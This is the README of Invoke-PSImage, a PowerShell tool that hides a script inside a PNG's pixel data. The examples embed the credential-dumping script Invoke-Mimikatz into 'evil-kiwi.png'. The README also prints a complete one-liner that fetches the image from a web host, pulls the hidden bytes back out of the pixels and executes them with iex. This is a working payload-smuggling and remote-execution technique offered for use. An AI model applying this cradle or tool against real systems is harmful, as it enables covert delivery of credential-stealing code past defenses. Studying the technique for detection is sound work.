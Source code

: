 # Invoke-PSImage
Embeds a PowerShell script in the pixels of a PNG file and generates a oneliner to execute

Invoke-PSImage takes a PowerShell script and embeds the bytes of the script into the pixels of a PNG image. It generates a oneliner for executing either from a file of from the web (when the -Web flag is passed).

The least significant 4 bits of 2 color values in each pixel are used to hold the payload. Image quality will suffer as a result, but it still looks decent. The image is saved as a PNG, and can be losslessly compressed without affecting the ability to execute the payload as the data is stored in the colors themselves. It can accept most image types as input, but output will always be a PNG because it needs to be lossless.

Each pixel of the image is used to hold one byte of script, so you will need an image with at least as many pixels as bytes in your script. This is fairly easy—for example, Invoke-Mimikatz fits into a 1920x1200 image.

## Arguments

**-Script** [filepath]
The path to the script to embed in the Image.

**-Image** [filepath]
The image to embed the script in.

**-Out** [filepath]
The file to save the resulting image to (image will be a PNG)

**-Web**
Output a command for reading the image from the web instead of reading from a file.
You will need to host the image and insert the URL into the command.

## Example
Create an image with the script "Invoke-Mimikatz.ps1" embeded in it and output a oneliner to execute from disk:
```
PS>Import-Module .\Invoke-PSImage.ps1
PS>Invoke-PSImage -Script .\Invoke-Mimikatz.ps1 -Image .\kiwi.jpg -Out .\evil-kiwi.png
   [Oneliner to execute from a file]
``` 
Create an image with the script "Invoke-Mimikatz.ps1" embeded in it and output a oneliner to execute from the web (you still have to host the image and edit the URL):
```
PS>Import-Module .\Invoke-PSImage.ps1
PS>Invoke-PSImage -Script .\Invoke-Mimikatz.ps1 -Image .\kiwi.jpg -Out .\evil-kiwi.png -Web
   [Oneliner to execute from the web]
``` 
Oneliner broken down from the image below
```
sal a New-Object

Add-Type -AssemblyName "System.Drawing";

$g = a System.Drawing.Bitmap((a Net.WebClient).OpenRead("https://i.imgur.com/<your.png>"));

$o = a Byte[] 2204160;(0..1147)|% {foreach($x in (0..1919)){$p = $g.GetPixel($x,$_);

$o[$_*1920+$x]=([math]::Floor(($p.B -band 15)*16) -bor ($p.G -band 15)))}};

$g.Dispose();iex([System.Text.Encoding]::ASCII.GetString($o[0..2204115])); # invoke your function

```
Executing an image hosted on the web:
![Screenshot of using Invoke-PSImage](https://github.com/peewpw/Invoke-PSImage/raw/master/images/ps_kiwi.png)

